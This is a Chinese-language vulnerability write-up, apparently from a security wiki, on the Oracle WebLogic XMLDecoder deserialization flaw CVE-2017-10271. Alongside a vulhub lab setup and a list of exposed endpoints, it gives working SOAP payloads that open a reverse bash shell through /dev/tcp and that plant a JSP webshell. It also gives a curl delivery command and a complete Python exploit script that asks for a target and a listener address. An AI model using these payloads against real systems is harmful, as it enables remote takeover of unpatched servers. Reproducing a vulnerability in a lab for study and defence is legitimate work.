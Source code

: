 # Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

```
Weblogic 10.3.6.0.0
Weblogic 12.1.3.0.0
Weblogic 12.2.1.0.0
Weblogic 12.2.1.2.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可![img](./images/202202091225400.png)

## 漏洞复现

对 http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType 进行访问，存在这个url则可能存在漏洞

```plain
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

![img](./images/202202091225406.png)

使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![img](./images/202202091225539.png)

也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞POC

利用 [weblogic-scan](https://github.com/kingkaki/weblogic-scan)快速检测

![img](./images/202202091225528.png)

- 反弹shell exp

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 10.3.6.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.1.3.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-10271.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7001  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, IP, PORT):
    vuln_url = target_url + "/wls-wsat/CoordinatorPortType"
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.4.0" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
        <void index="0">
        <string>/bin/bash</string>
        </void>
        <void index="1">
        <string>-c</string>
        </void>
        <void index="2">
        <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
        </void>
        </array>
        <void method="start"/></void>
        </java>
        </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>
    """ % (IP,PORT)
    try:
        response = requests.request("POST", url=vuln_url, headers=headers, data=data)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_1(target_url, IP, PORT)
```

![img](./images/202202091225540.png)

